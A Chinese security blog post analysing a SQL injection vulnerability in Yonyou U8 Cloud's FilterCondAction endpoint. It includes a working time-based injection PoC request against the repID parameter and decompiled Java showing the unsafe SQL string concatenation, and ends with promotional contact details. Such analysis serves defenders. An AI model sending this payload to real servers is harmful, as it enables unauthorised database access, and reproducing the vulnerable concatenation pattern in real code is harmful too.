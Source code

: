 #  用友U8Cloud漏洞 | FilterCondAction SQL注入分析  
原创 chobits02  C4安全   2025-07-18 06:17  
  
前言  
  
又来到了久违的漏洞分析环节，平时习惯性先把文章投稿到奇安信社区平台，然后再在这上面搬一下自己的文章，师傅们要是蹲第一手分析的话可以关注一下，万分感谢：  
```
https://forum.butian.net/index.php/people/1420
```  
  
用友U8 Cloud系统FilterCondAction  
方法存在SQL注入漏洞  
  
社区文章审核说这漏洞是23年的？虽然我网上没搜到具体漏洞信息，但也确定不了这个漏洞发掘的时间，遗憾就当个分析文章看看吧  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QarzbJ87BroKyQQ1VUCJOao2BJiaCiahY8Q2rft5rag8yQDiab94W94JEibQ/640?wx_fmt=gif&from=appmsg "")  
  
漏洞利用的POC如下  
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.bi.report.rep.FilterCondAction&method=execute&repID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```  
  
其中的repID  
参数存在注入，使用延时注入验证下，成功延时5秒  
  
  
首先看漏洞位于FilterCondAction  
接口处，方法的完整路径为nc.ui.bi.report.rep.FilterCondAction  
  
  
这里只关注下面的execute方法，完整代码如下  
```
public ActionForward execute(ActionForm actionForm) {  
    FilterCondForm form = (FilterCondForm)actionForm;  
    String repID = getRequestParameter("repID");  
    AdhocModel adhocModel = (AdhocModel)BIWebRepUtil.getRepModel((IUFOAction)this, repID);  
    if (adhocModel == null)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource("mbirep0007"));   
    form.setRepID(repID);  
    FilterValueDescriptor fvd = null;  
    IAdhocAnalyzer[] anas = adhocModel.getDataCenter().getAnalyzerModel().getAnalyzerByType(0);  
    if (anas != null && anas.length > 0) {  
      FilterValueAnalyzer fva = (FilterValueAnalyzer)anas[0];  
      if (fva.getFilterValueDescriptor() != null)  
        try {  
          fvd = (FilterValueDescriptor)fva.getFilterValueDescriptor().clone();  
        } catch (CloneNotSupportedException e) {  
          AppDebug.debug(e);  
        }    
    }   
    if (fvd == null)  
      fvd = new FilterValueDescriptor();   
    IColumnData[] refFields = getRefFields(repID);  
    if (refFields == null || refFields.length == 0)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource("mbirep0008"));   
    FilterCondTableModel model = new FilterCondTableModel(fvd, refFields);  
    form.setFilterCondTableModel(model);  
    addSessionObject(getClass().getName(), fvd);  
    ActionForward actionForward = new ActionForward(FilterCondDlg.class.getName());  
    return actionForward;  
}
```  
  
首先是方法接收传参repID  
，然后直接调用repID  
的有两个方法  
  
  
先来看第一个，追踪进入getRepModel  
  
  
可以看到repID  
又进入了下面的loadRepModelFromDB  
方法当中，追踪方法来到其中  
  
  
最后repID  
是进了getByIDs方法当中，最终来到漏洞点  
  
  
代码如下  
```
public ValueObject[] getByIDs(String[] strIDs) throws ReportMngException {  
    int iLen = (strIDs == null) ? 0 : strIDs.length;  
    String sWhere = null;  
    if (iLen != 0) {  
      StringBuffer sbWhere = new StringBuffer();  
      sbWhere.append("pk_reportmodel in (");  
      for (int i = 0; i < iLen; i++) {  
        sbWhere.append("'").append(strIDs[i]).append("' ");  
        if (i < iLen - 1) {  
          sbWhere.append(",");  
        } else {  
          sbWhere.append(")");  
        }   
      }   
      sWhere = sbWhere.toString();  
    }   
    ReportVO[] vos = null;  
    try {  
      vos = (ReportVO[])ReportBO_Client.query(sWhere, DimRescource.UFBI_DATASOURCE);  
    } catch (Exception e) {  
      handleException(e);  
    }   
    return (ValueObject[])vos;  
}
```  
  
分析下，这个漏洞其实和我之前分析的华天动力OA的SQL注入一样，都是append方法拼接SQL语句，恶意语句可以闭和最后的)  
号导致的  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5Qayk98IlLoJzesypoLhTqkJicwaTzpPE5LXz1fGTRJG463iaMjgNHA68VQ/640?wx_fmt=png&from=appmsg "")  
  
方法中使用pk_reportmodel in ('+repID+')  
这样拼接SQL，就造成了SQL注入漏洞  
  
就这样简单的结束了(*╹▽╹*)  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
